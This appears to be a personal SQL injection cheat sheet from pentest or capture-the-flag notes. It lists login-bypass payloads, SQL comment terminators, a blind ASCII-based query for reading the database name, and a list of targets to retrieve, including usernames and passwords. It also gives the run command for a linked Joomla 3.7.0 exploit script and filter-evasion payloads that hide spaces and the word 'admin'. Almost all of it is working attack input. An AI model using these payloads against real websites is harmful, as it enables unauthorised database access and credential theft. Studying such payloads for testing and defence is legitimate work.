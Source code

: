 SQL 1=1 
```
' or 1=1 --
') or true --
') or true; --
```

-- Used to comment

For known email
```
<email>'--
```

Most commonly used comments for SQLi payloads:

```
--+

//

/*
```

ASCII check of first letter of DB (115 = s)
```
?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+
```

Here's a small list of thing you'd wa nt to retrieve:

1.  database()
2.  user()
3.  @@version
4.  username
5.  password
6.  table_name
7.  column_name


### Joomla 3.7.0
https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py
```
python3 filename.py <url>
```

### Filter bypass
Concat specific words
```
||
adm'||'in'/*
```

Use admin as chars / bypass blocked spaces
```
'/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*
```

